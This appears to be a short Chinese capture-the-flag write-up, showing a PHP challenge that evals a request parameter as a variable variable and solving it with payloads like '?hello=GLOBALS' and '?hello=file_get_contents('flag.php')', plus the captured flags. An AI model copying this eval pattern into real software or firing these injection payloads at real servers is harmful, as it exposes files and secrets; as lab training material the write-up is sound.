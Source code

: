 # 爆破-1
```php
include "flag.php";  
$a = @$_REQUEST['hello'];  
if(!preg_match('/^\w*$/',$a )){  
die('ERROR');  
}  
eval("var_dump($$a);");  #提交时转换成 $GLOBALS 回显所有变量
show_source(__FILE__);  
?>
```
直接构造 payload:`?hello=GLOBALS` 提交,在所有变量中找到 flag: `flag{f210df84-58c5-4b34-a5ec-14caf0d7ec0e}`
# 爆破-2
同样的题,解法不同
构造 payload:`?hello=file_get_contents('flag.php')` 提交,`Ctrl+U` 查看源码得到 flag:`flag{45026846-5a96-4f26-bc7a-1b80077b81d7}` 
以下均可
`file_get_contents('flag.php')`
`file('flag.php')`
`show_source('flag.php')`

# 爆破-3
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTYzNDY2OTk0OCwxOTgyMTAyOTI2LC0xNz
g2OTY0MzI4LDQ1OTM5NjE1NV19
-->
